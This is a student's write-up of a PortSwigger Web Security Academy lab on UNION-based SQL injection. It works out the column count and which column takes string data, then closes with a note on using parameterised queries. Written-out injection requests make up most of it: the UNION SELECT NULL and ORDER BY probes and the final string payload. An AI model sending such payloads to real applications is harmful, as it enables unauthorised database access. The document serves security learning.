




# SQL Injection - UNION Attack: Identify Column with String Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. 

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you **determine which columns are compatible with string data**.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL-- HTTP/2
Response: HTTP/2 500 Internal Server Error
```

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL-- HTTP/2
Response: HTTP/2 500 Internal Server Error
```

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
Response: HTTP/2 200 OK
```



Confirmed the number of columns = 3, as response returned HTTP 200.

Alternative approach: Using `ORDER BY` can also determine the column count. An error will be displayed at `ORDER BY 4`.

```http
GET /filter?category=Accessories'+ORDER+BY+4-- HTTP/2
Response: HTTP/2 500 Internal Server Error
```

### 3. Identified Column Accepting String Output

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,'a',NULL-- HTTP/2
Response: HTTP/2 200 OK
```

Injected `'a'` is a visible test string and will appear on the page if the injection works.



But, this did not solve the lab. The response included a hint: Make the database should retrieve the string 'xE5jkD'

### 4. Solved the Lab Using the Required Payload

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,'xE5jkD',NULL-- HTTP/2
```



As expected, the response said "Congratulations you solved the lab!"

### 5. Forwarded the Final Payload

Forwarded the final payload and confirmed that the  injected string 'xE5jkD' was displayed on the webpage.



---

## Mitigation

Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

---

## Reflection

-Learned the second step of a UNION-based SQL injection: identifying the columns with string data using `UNION SELECT` query.

---

## Notes

